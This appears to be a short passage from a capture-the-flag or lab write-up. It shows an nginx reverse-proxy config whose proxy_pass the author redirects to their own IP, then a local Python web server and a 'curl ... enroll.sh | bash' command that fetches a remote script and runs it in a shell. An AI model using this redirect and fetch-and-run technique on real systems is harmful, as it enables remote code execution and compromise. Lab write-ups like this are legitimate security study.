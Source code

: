 ```console
    # Enable HSTS (https://developer.mozilla.org/en-US/docs/Security/HTTP_Strict_Transport_Security)
    add_header Strict-Transport-Security "max-age=63072000; includeSubdomains";
    add_header X-Frame-Options DENY;

    add_header Cache-Control "no-cache, no-store";
    add_header Pragma "no-cache";
    expires -1;

    location / {
        proxy_set_header        Host $host;
        proxy_set_header        X-Real-IP $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header        X-Forwarded-Proto $scheme;

        # Fix the “It appears that your reverse proxy set up is broken" error.
        proxy_pass          http://10.8.2.163:9999;
        proxy_read_timeout  90;
    }
}
``` 
So i just change this line ```proxy_pass  http://10.8.2.163:9999;``` with my ip, we can test :

```bash
python3 -m http.server 9999

curl -sk -v  https://10.10.168.230/toto/tata/enroll.sh | bash
```
![alt text](../assets/image_control/image.png)
